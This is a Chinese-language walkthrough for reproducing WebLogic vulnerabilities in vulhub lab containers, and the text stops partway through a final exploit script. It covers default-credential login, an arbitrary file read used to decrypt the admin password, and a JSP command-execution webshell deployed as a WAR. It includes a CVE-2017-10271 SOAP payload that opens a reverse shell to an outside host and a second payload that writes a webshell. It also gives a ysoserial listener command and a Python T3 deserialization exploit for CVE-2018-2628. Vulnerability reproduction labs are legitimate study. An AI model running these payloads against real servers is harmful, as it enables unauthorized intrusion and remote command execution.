使用 vulhub 复现 Weblogic 漏洞合集，包含WebLogic 弱口令、任意文件读取与远程代码执行、Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）


## WebLogic 弱口令

后台管理控制台存在弱口令，以及前台存在任意文件读取漏洞。通过这两个漏洞，我们可以演示对 WebLogic 服务器的常见渗透测试场景。

### 环境搭建

执行如下命令启动 WebLogic 服务器，该服务器基于 WebLogic 10.3.6（11g）和 Java 1.6。


```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   volumes:
    - ./web:/root/Oracle/Middleware/user_projects/domains/base_domain/autodeploy
   ports:
    - "7001:7001"
    - "5556:5556"
YML
mkdir -p web
wget https://raw.githubusercontent.com/vulhub/vulhub/master/weblogic/weak_password/web/hello.war -o web/hello.war
# 启动服务
docker compose up -d
```

环境启动后，访问 http://your-ip:7001/console 进入 WebLogic 管理控制台。

### 漏洞复现

环境中存在以下默认凭据：

用户名：weblogic  
密码：Oracle@123  

更多 WebLogic 常用默认凭据可参考：http://cirt.net/passwords?criteria=weblogic

如果没有弱口令可以利用，我们如何渗透 WebLogic 服务器？本环境模拟了一个任意文件下载漏洞。访问 http://your-ip:7001/hello/file.jsp?path=/etc/passwd 可以验证成功读取 passwd 文件。



要有效利用这个漏洞，我们可以通过以下步骤提取管理员密码：

读取后台用户密文与密钥文件

WebLogic 的密码使用 AES 加密（老版本使用 3DES）。由于这是对称加密，如果我们能获得密文和加密密钥，就可以解密密码。这两个文件位于 base_domain 目录下：

SerializedSystemIni.dat：加密密钥文件

config.xml：包含加密密码的配置文件

在本环境中，这些文件位于：

./security/SerializedSystemIni.dat  
./config/config.xml  
（相对于 /root/Oracle/Middleware/user_projects/domains/base_domain 目录）  

下载 SerializedSystemIni.dat 时，必须使用 Burp Suite，因为这是二进制文件。直接用浏览器下载可能会引入干扰字符。在 Burp Suite 中，选中二进制内容并使用"Copy to File"功能正确保存：



在 config.xml 中，找到 <node-manager-password-encrypted> 值，这里包含了加密后的管理员密码：



### 解密密文

使用环境中 decrypt 目录下的 weblogic_decrypt.jar 工具解密密文。https://github.com/vulhub/vulhub/tree/master/weblogic/weak_password/decrypt



解密后的密码与预设密码一致，证明利用成功。

### 部署 WebShell

获取管理员凭据后，登录管理控制台。点击左侧导航栏中的"部署"查看应用列表：



点击"安装"并选择"上传文件"：



准备 war 包，war 包中包含一个 JSP 文件作为 shell.war 包的目录结构如下：

```plaintext
shell.war
├── WEB-INF
│   └── weblogic.xml
└── shell.jsp
```

shell.jsp 内容如下：

```java
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd == null && "POST".equals(request.getMethod())) {
    cmd = request.getReader().readLine();
}
if (cmd != null && !cmd.trim().isEmpty()) {
    Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",cmd});
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) out.println(line + "\n");
    br.close();
}
%>
```

weblogic.xml 内容如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<weblogic-web-app xmlns="http://www.bea.com/ns/weblogic/90">
    <context-root>/shell</context-root>
</weblogic-web-app>
```

打包 shell.war：

```bash
jar -cvf shell.war *
```

上传 shell.war 后，点击"下一步"，选择"安装为应用程序"并点击"完成"。部署成功后，访问 http://your-ip:7001/shell/shell.jsp 即可使用 WebShell。







## Weblogic XMLDecoder反序列化漏洞（CVE-2017-10271）

Weblogic 的 WLS Security 组件对外提供 webservice 服务，其中使用了 XMLDecoder 来解析用户传入的 XML 数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

### 环境搭建

启动测试环境：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
YML

# 启动服务
docker compose up -d
```

等待一段时间，访问 http://your-ip:7001/ 即可看到一个 404 页面，说明 weblogic 已成功启动。


### 漏洞复现

发送如下数据包（注意其中反弹 shell 的语句，需要进行编码，否则解析 XML 的时候将出现格式错误）：

```xml
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```



写入 webshell（访问：http://your-ip:7001/bea_wls_internal/test.jsp），autodeploy 在生产环境中是关闭的，如果是开启的情况下，可以直接写入 webshell，访问：http://your-ip:7001/test.jsp

```java
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd == null && "POST".equals(request.getMethod())) {
    cmd = request.getReader().readLine();
}
if (cmd != null && !cmd.trim().isEmpty()) {
    Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c",cmd.trim()});
    BufferedReader br = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = br.readLine()) != null) out.println(line + "\n");
    br.close();
    p.destroy();
}
%>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```



## Weblogic WLS Core Components 反序列化命令执行（CVE-2018-2628）

Oracle 2018 年 4 月补丁中，修复了 Weblogic Server WLS Core Components 中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过 T3 协议触发，可导致未授权的用户在远程服务器执行任意命令。

### 环境搭建

执行如下命令启动 Weblogic 10.3.6.0：

```bash
# 创建 docker-compose.yml 文件
cat << "YML" > docker-compose.yml
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
YML

# 启动服务
docker compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问 http://your-ip:7001/console，初始化整个环境。

### 漏洞复现

首先下载 ysoserial https://github.com/frohoff/ysoserial/releases/download/v0.0.6/ysoserial-all.jar ，并启动一个 JRMP Server：

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，[command] 即为我想执行的命令，而 [listen port] 是 JRMP Server 监听的端口。


然后，使用 exploit.py 脚本，向目标 Weblogic（http://your-ip:7001）发送数据包：

```python
# -*- coding: utf-8 -*-
# Oracle Weblogic Server (10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3) Deserialization Remote Command Execution Vulnerability (CVE-2018-2628)
#
# Python 3 compatible version

from __future__ import print_function

import binascii
import os
import socket
import sys
import time


def generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    command = 'java -jar {} {} {}:{} > payload.out'.format(
        path_ysoserial, jrmp_client, jrmp_listener_ip, jrmp_listener_port)
    print("command: " + command)
    os.system(command)
    with open('payload.out', 'rb') as f:
        bin_file = f.read()
    return binascii.hexlify(bin_file).decode()


def t3_handshake(sock, server_addr):
    sock.connect(server_addr)
    sock.send(binascii.unhexlify(
        '74332031322e322e310a41533a3235350a484c3a31390a4d533a31303030303030300a0a'))
    time.sleep(1)
    sock.recv(1024)
    print('handshake successful')


def build_t3_request_object(sock, port):
    data1 = ('000005c3016501ffffffffffffffff0000006a0000ea600000001900937b484a56fa4a777666f581daa4f5b90e2aebfc607499b4027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c657400124c6a6176612f6c616e672f537472696e673b4c000a696d706c56656e646f7271007e00034c000b696d706c56657273696f6e71007e000378707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b4c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00044c000a696d706c56656e646f7271007e00044c000b696d706c56657273696f6e71007e000478707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200217765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e50656572496e666f585474f39bc908f10200064900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463685b00087061636b616765737400275b4c7765626c6f6769632f636f6d6d6f6e2f696e7465726e616c2f5061636b616765496e666f3b787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e56657273696f6e496e666f972245516452463e0200035b00087061636b6167657371'
    )
    data2 = ('007e00034c000e72656c6561736556657273696f6e7400124c6a6176612f6c616e672f537472696e673b5b001276657273696f6e496e666f417342797465737400025b42787200247765626c6f6769632e636f6d6d6f6e2e696e7465726e616c2e5061636b616765496e666fe6f723e7b8ae1ec90200084900056d616a6f724900056d696e6f7249000c726f6c6c696e67506174636849000b736572766963655061636b5a000e74656d706f7261727950617463684c0009696d706c5469746c6571007e00054c000a696d706c56656e646f7271007e00054c000b696d706c56657273696f6e71007e000578707702000078fe00fffe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c000078707750210000000000000000000d3139322e3136382e312e323237001257494e2d4147444d565155423154362e656883348cd6000000070000{0}ffffffffffffffffffffffffffffffffffffffffffffffff78fe010000aced0005737200137765626c6f6769632e726a766d2e4a564d4944dc49c23ede121e2a0c0000787077200114dc42bd07'
              .format('{:04x}'.format(port)))
    data3 = '1a7727000d3234322e323134'
    data4 = '2e312e32353461863d1d0000000078'

    for d in [data1, data2, data3, data4]:
        sock.send(binascii.unhexlify(d))
    time.sleep(2)
    print('send request payload successful, recv length:{}'.format(len(sock.recv(2048))))


def send_payload_objdata(sock, data):
    payload = ('056508000000010000001b0000005d010100737201787073720278700000000000000000757203787000000000787400087765626c6f67696375720478700000000c9c979a9a8c9a9bcfcf9b939a7400087765626c6f67696306fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200025b42acf317f8060854e002000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078707702000078fe010000aced00057372001d7765626c6f6769632e726a766d2e436c6173735461626c65456e7472792f52658157f4f9ed0c000078707200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78707702000078fe010000')
    payload += data
    payload += ('fe010000aced0005737200257765626c6f6769632e726a766d2e496d6d757461626c6553657276696365436f6e74657874ddcba8706386f0ba0c0000787200297765626c6f6769632e726d692e70726f76696465722e426173696353657276696365436f6e74657874e4632236c5d4a71e0c0000787077020600737200267765626c6f6769632e726d692e696e7465726e616c2e4d6574686f6444657363726970746f7212485a828af7f67b0c000078707734002e61757468656e746963617465284c7765626c6f6769632e73656375726974792e61636c2e55736572496e666f3b290000001b7878fe00ff')

    payload = '{:08x}{}'.format(len(payload) // 2 + 4, payload)
    sock.send(binascii.unhexlify(payload))
    time.sleep(2)
    sock.send(binascii.unhexlify(payload))

    res = b''
    try:
        while True:
            chunk = sock.recv(4096)
            if not chunk:
                break
            res += chunk
            time.sleep(0.1)
    except Exception:
        pass
    return res.decode(errors='replace')


def exploit(dip, dport, path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.settimeout(65)
    server_addr = (dip, dport)
    t3_handshake(sock, server_addr)
    build_t3_request_object(sock, dport)
    payload = generate_payload(path_ysoserial, jrmp_listener_ip, jrmp_listener_port, jrmp_client)
    print("payload: " + payload[:64] + "...")
    rs = send_payload_objdata(sock, payload)
    print('response: ' + rs[:256])
    print('exploit completed!')


if __name__ == "__main__":
    if len(sys.argv) != 7:
        print('\nUsage:')
